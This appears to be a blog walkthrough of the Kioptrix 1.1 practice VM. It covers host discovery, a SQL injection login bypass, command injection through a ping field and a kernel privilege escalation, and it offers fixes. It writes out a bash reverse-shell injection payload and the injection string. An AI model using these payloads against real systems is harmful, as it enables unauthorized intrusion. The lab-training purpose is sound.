 ```yaml
---
layout: post
title: "Kioptrix 1.1 Walkthrough"
date: 2019-08-30
---
```


Although the principal is the same, Kioptrix level 2 provides a different set of challenges from level one.
Whereas level one had vulnerable mod_ssl version and kernel exploit, level 2 (1.1) is vulnerable to SQL Injection, command execution and different kernel exploit.

# **Vulnerable System** : Kioptrix 1.1

**Operating System** : CentOS 4.5

**Kernel** : 2.6.9

**Vulnerability Exploited** : SQL Injection

**Exploit Used** : N/A

**Proof of Concept Code** : Admin' #

**Vulnerability Explained** :  The Remote System Administration Login was vulnerable to SQL injection, which granted access to Remote System Administration Web Console.

**Vulnerability fix** : When making a login page that connects to MySQL database, either use dynamic queries or make sure that user&#39;s input is validated.

**Severity: Low**

----------------------------------------------------------------------------------------------------------------------------------------

**Vulnerability Exploited** : Command Execution

**Exploit Used** : N/A

**Proof of Concept Code** : 192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

**Vulnerability Explained** :  The Remote System Administration Web Console page was vulnerable to command execution, which resulted in gaining low privilege shell.

**Vulnerability fix** : User input should be validated and only IP address should be allowed to be entered.

**Severity** : **Medium**

----------------------------------------------------------------------------------------------------------------------------------------

**Privilege Escalation Vulnerability** : Linux Kernel 'sock_sendpage()' NULL Pointer Dereference

**Exploit Used** : Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - &#39;sock\_sendpage()&#39; Local Privilege Escalation

**Proof of Concept Code** : [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

**Privilege Escalation Vulnerability Explained:** Linux kernel vulnerability allows to gain administrative privileges with specifically crafted executable.

**Vulnerability fix** : Update Linux kernel to the newest version possible. Patches available from the vendor, for more information [https://access.redhat.com/security/cve/cve-2009-2692](https://access.redhat.com/security/cve/cve-2009-2692).

**Severity** : **High**

----------------------------------------------------------------------------------------------------------------------------------------

## Methodology

    * Host Discovery (arpscan)

    * Port Scanning (nmap)

    * Web Port Enumeration (nikto, gobuster, browser)

    * Discovered MySQL Injection Vulnerability (browser)

    * Discovered Command Execution Vulnerability (browser)

    * Low Privilege Shell Gained (netcat)

    * Privilege Escalation Enumeration (uname, cat /etc/\*-release)

    * Discovered Appropriate Exploit 'sock\_sendpage()' Local Privilege Escalation 
      (searchsploit/exploit-db)

    * Compiled the Exploit and Gained Administrative Privileges

----------------------------------------------------------------------------------------------------------------------------------------

## Arp-scan

Discovering the vulnerable system with arp-scan -l:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/arp-scan.png)

## Nmap

Nmap all ports scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_allportsd.png)

\*Note: Nmap -p- flag scans all TCP ports from 1 to 65535.

Nmap version, default script and aggressive scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv.png)
 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv1.png)

-p specifies the ports to scan

-sV flag attempts to determine service and version information for given ports

-sC flag utilizes a default set of nmap scripts



## Port 80 Enumeration

### Nikto

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nikto.png)

### Gobuster

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/gobuster.png)

  *Note: Gobuster discovers hidden web directories. New versions of gobuster come with 3 different modes: dns, dir and vhost. In this case dir is used. -u flag is used to specify the url and -w flag is used to specify the wordlist to be used.

### Browser

The browser presents us with a login page:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/browser.png)

## Exploitation

### Low Privilege Exploitation

#### SQL Injection

The login page is vulnerable to SQL injection:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/sql_injection.png)

#### Command Execution

Once logged it, there seems to be a ping command running from the web interface:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution1.png)

With the correct syntax it's possible to append another command to the ping command to execute the reverse shell as shown below:

192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution3.png)

### Privilege Escalation

Obtaining low privilege shell and determining the system&#39;s operating system and kernel:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/low%20privilege.png)

python -c "import pty;pty.spawn('/bin/bash')" command upgrades the "dumb" web shell to fully interactive tty shell. With out this, commands such as su – will not work.

The operating system is CentOS release 4.5 and the kernel version is 2.6.9



#### Searchsploit:

Searching exploit-db for suitable exploit:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit.png)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit2.png)

#### Privilege Escalation Exploit

Downloading the exploit to the victim machine.

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/downloading.png)

Compiling the exploit, executing the exploit and gaining root privileges:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/compiling.png)
